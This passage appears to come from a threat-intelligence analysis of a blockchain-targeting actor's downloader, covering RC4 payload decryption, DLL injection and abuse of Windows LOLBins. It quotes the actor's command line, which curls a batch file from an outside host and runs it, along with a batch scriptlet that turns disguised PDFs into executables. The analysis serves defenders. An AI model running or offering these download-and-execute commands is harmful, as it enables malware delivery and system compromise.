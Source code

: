 Note that the user-agent name is “cur1-agent“, and the malware sends “da” POST data if the victim installed Avira or Avast; otherwise, the malware sends “dl” POST data. If the fetched data by cURL command contains “<html>” and “curl:”, the malware decrypts the payload with a delivered 64-byte RC4 key.
If Avira or Avast are installed, the malware saves the decrypted payload to “%TEMPLATES%\marcoor.dll” and spawns it with the rundll32.exe command with the payload URL.

command: exe %TEMPLATES%\marcoor.dll #1 [payload URL]

Otherwise, the malware doesn’t write the payload to the file and injects the fetched payload into the explorer.exe process. The fetched payload is a DLL type executable and its export function is spawned with the “payload URL”.
Unfortunately, we haven’t been able to obtain a precise infection chain so far. From our telemetry, however, we can confirm the victim was eventually compromised by backdoor-type malware. Based on the malware’s static information, and parts of the internal code, we assess that the final payload is still very similar to the Persistence Backdoor #2[1] we described in our previous blog.
Updated method #2: Scripts and novel downloader
Additionally, we observed the download and launch of a suspicious batch file. The actor exploited different LOLBins. The malware execution is done using a legitimate script, SyncAppvPublishingServer.vbs, in the system folder. This script is for executing the PowerShell script via a Windows scheduled task.





WScript.exe "%system32%\SyncAppvPublishingServer.vbs"  "n;cmd.exe '/c curl perseus.bond/Dgy_0dU08lC/hCHEdlDFGV/P89bXhClww/uiOHK5H35B/bM%3D -A cur1-agent -o %public%\regsile.bat & start /b %public%\regsile.bat'




1

WScript.exe "%system32%\SyncAppvPublishingServer.vbs"  "n;cmd.exe '/c curl perseus.bond/Dgy_0dU08lC/hCHEdlDFGV/P89bXhClww/uiOHK5H35B/bM%3D -A cur1-agent -o %public%\regsile.bat & start /b %public%\regsile.bat'




We also observed the context around that batch file in our telemetry. The batch file name is “What is Blockchain.bat“. As the file name suggests, this group still targets the blockchain industry. We acquired the scriptlet of the batch file.





xcopy /h /y /q How-To-Extension.pdf c:\users\public\Inproc.exe*
start xcopy /h /y /q Blockchain-old.pdf c:\users\public\rwinsta.exe*
start c:\users\public\Inproc.exe "%cd%\Blockchain.pdf"




123

xcopy /h /y /q How-To-Extension.pdf c:\users\public\Inproc.exe*start xcopy /h /y /q Blockchain-old.pdf c:\users\public\rwinsta.exe*start c:\users\public\Inproc.exe "%cd%\Blockchain.pdf"


